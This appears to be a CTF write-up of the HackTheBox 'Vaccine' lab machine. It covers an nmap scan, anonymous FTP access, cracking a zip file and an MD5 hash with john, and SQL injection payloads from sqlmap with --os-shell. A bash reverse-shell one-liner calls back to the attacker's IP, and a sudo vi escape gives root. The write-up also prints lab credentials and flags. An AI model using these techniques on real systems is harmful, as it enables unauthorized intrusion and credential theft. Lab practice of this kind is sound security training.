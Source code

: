 # Vaccine Write-up

#Vulnerability Assessment
#Databases
#Custom Applications
#Protocols
#Source Code Analysis
#Apache
#PostgreSQL
#FTP
#PHP
#Reconnaissance
#Password Cracking
#SUDO Exploitation
#SQL Injection
#Remote Code Execution
#Clear Text Credentials
#Anonymous/Guest Access

## Introduction

## Enumeration
1. **Scan with Nmap**:
    - `nmap -sV -sC {TARGET_IP}`
    - Open ports:
        ```
        nmap -sV -sC 10.129.185.253
        Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-26 03:56 EDT
        Nmap scan report for 10.129.185.253
        Host is up (0.098s latency).
        Not shown: 997 closed tcp ports (reset)
        PORT   STATE SERVICE VERSION
        21/tcp open  ftp     vsftpd 3.0.3
        | ftp-syst: 
        |   STAT: 
        | FTP server status:
        |      Connected to ::ffff:10.10.15.106
        |      Logged in as ftpuser
        |      TYPE: ASCII
        |      No session bandwidth limit
        |      Session timeout in seconds is 300
        |      Control connection is plain text
        |      Data connections will be plain text
        |      At session startup, client count was 2
        |      vsFTPd 3.0.3 - secure, fast, stable
        |_End of status
        | ftp-anon: Anonymous FTP login allowed (FTP code 230)
        |_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
        22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
        | ssh-hostkey: 
        |   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
        |   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
        |_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
        80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
        |_http-title: MegaCorp Login
        | http-cookie-flags: 
        |   /: 
        |     PHPSESSID: 
        |_      httponly flag not set
        |_http-server-header: Apache/2.4.41 (Ubuntu)
        Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

        Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        Nmap done: 1 IP address (1 host up) scanned in 11.93 seconds
        ```

2. **GoBuster**:
    - `gobuster dir --url {URL} --wordlist /opt/SecList/Discovery/Web-content/common.txt`
    - result: No interesting information.

3. **Navigate the Website**:
    - Found only a login page.

## Connect to FTP Anonymous
- `ftp {TARGET_IP}`
- `get backup.zip`

## Crack Password
1. **Crack Password to retrive content zip**:
- Use tools like `zip2john` and `john` to crack the password and access the content.

```
    # Generate hash from zip file
    zip2john backup.zip > backup.hash

    # Crack the password using a custom wordlist
    john --wordlist=/path/to/wordlist.txt backup.hash

    # Check the cracked password
    john --show backup.hash
```

- Display containt unzip 
- `cat index.php` and we find login and password admin
- username: admin, password: 2cb42f8734ea607eefed3b70af13bbd3

2. **Crack password admin**
- use tool `jonh`
```
    echo 'admin:2cb42f8734ea607eefed3b70af13bbd3' > hash.txt
    john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 hash.txt
    john --show --format=Raw-MD5 hash.txt 
    
```
- Why md5 ? because associated with an MD5 hash of a password in the provided PHP code
- admin:qwerty789

## In page dashbord.php
- use tool `sqlmap`
- `sqlmap -u "http://10.129.185.253/dashboard.php?search=1" --cookie="PHPSESSID=your-session-id" --level=5 --risk=3 --dbs`
- differentes playloads
```
sqlmap identified the following injection point(s) with a total of 155 HTTP(s) requests:
---
Parameter: search (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: search=-7550' OR 7976=7976-- Qmgm

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=1' AND 1016=CAST((CHR(113)||CHR(107)||CHR(122)||CHR(113)||CHR(113))||(SELECT (CASE WHEN (1016=1016) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(120)||CHR(122)||CHR(113)||CHR(113)) AS NUMERIC)-- fxHD

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=1';SELECT PG_SLEEP(5)--

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=1' AND 5144=(SELECT 5144 FROM PG_SLEEP(5))-- QOaj

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: search=1' UNION ALL SELECT NULL,NULL,NULL,(CHR(113)||CHR(107)||CHR(122)||CHR(113)||CHR(113))||(CHR(119)||CHR(78)||CHR(81)||CHR(104)||CHR(121)||CHR(76)||CHR(74)||CHR(101)||CHR(99)||CHR(107)||CHR(102)||CHR(68)||CHR(78)||CHR(97)||CHR(97)||CHR(101)||CHR(84)||CHR(90)||CHR(121)||CHR(105)||CHR(105)||CHR(69)||CHR(119)||CHR(69)||CHR(65)||CHR(112)||CHR(87)||CHR(74)||CHR(113)||CHR(118)||CHR(85)||CHR(88)||CHR(100)||CHR(111)||CHR(106)||CHR(71)||CHR(87)||CHR(70)||CHR(69)||CHR(105))||(CHR(113)||CHR(120)||CHR(122)||CHR(113)||CHR(113)),NULL-- chrG
```

The last playload we get things interesting, when we put in the url : `http://10.129.185.253/dashboard.php?search=search=1%27%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,(CHR(113)||CHR(107)||CHR(122)||CHR(113)||CHR(113))||(CHR(119)||CHR(78)||CHR(81)||CHR(104)||CHR(121)||CHR(76)||CHR(74)||CHR(101)||CHR(99)||CHR(107)||CHR(102)||CHR(68)||CHR(78)||CHR(97)||CHR(97)||CHR(101)||CHR(84)||CHR(90)||CHR(121)||CHR(105)||CHR(105)||CHR(69)||CHR(119)||CHR(69)||CHR(65)||CHR(112)||CHR(87)||CHR(74)||CHR(113)||CHR(118)||CHR(85)||CHR(88)||CHR(100)||CHR(111)||CHR(106)||CHR(71)||CHR(87)||CHR(70)||CHR(69)||CHR(105))||(CHR(113)||CHR(120)||CHR(122)||CHR(113)||CHR(113)),NULL--%20chrG`

we have : qkzqqwNQhyLJeckfDNaaeTZyiiEwEApWJqvUXdojGWFEiqxzqq     i don't yet know utility

- also there are table
```
available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public
```

- user other command `sqlmap -u "http://10.129.185.253/dashboard.php?search=1" --cookie="PHPSESSID=your-session-id" --level=5 --risk=3 --os-shell`
- --os-shell : allows you to attempt to obtain an operating system shell on the vulnerable target

launch netcat : nc -lvnp 443

We have a shell and we use a payloads : `bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"`

```
postgres@vaccine:/var/lib/postgresql/11/main$ whoami
whoami
postgres
```

## Privilege Escalation

- see /var/www/html 
- when we cat file index.php, we find pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");

1. **Connect to ssh with postgres**:
- `ssh postgres@10.129.185.253`

- flag user : ec9b13ca4d6229cd5cc1e09980965bf7

2. **sudo -l**:
- when we try to do `sudo -l` and we enter a password we obtain : 
```
postgres@vaccine:~$ sudo -l
[sudo] password for postgres: 
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET",
    env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

the sudo privilege given to the postgres user to edit the pg_hba.conf file with vi introduces a vulnerability that could be exploited to gain root access to the system

- `sudo vi /etc/postgresql/11/main/pg_hba.conf`
- Escape to a shell:

Within vi, press the Esc key to make sure you are in command mode.
Type `:!sh` and press Enter.
This command escapes to a shell with the same privileges that vi was executed with, which in this case, are root privileges.

- `whoami`

```
# whoami
root
```
flag root : dd6e058e814260bc70e9bbdef2715849